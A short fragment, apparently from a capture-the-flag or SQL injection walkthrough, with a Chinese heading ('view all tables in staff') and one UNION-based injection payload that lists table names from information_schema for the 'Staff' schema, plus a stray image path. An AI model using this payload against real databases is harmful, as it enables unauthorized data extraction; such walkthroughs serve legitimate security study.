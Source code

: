 查看staff中的所有表

```
-1' union select group_concat(table_name),1,2,3,4,5 from information_schema.tables where table_schema='Staff'#
```

```
